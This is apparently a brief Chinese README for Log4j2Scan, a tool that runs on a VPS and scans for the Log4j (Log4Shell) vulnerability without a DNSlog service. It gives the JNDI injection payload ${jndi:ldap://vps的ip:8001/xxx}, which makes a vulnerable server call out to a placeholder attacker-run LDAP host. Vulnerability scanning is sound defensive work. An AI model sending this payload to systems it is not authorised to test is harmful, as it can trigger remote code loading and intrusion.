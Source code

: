 # Log4j2Scan

在 VPS 上启动，默认端口 8001 
payload 要利用 ldap，${jndi:ldap://vps的ip:8001/xxx} 

无须dnslog检测log4j 
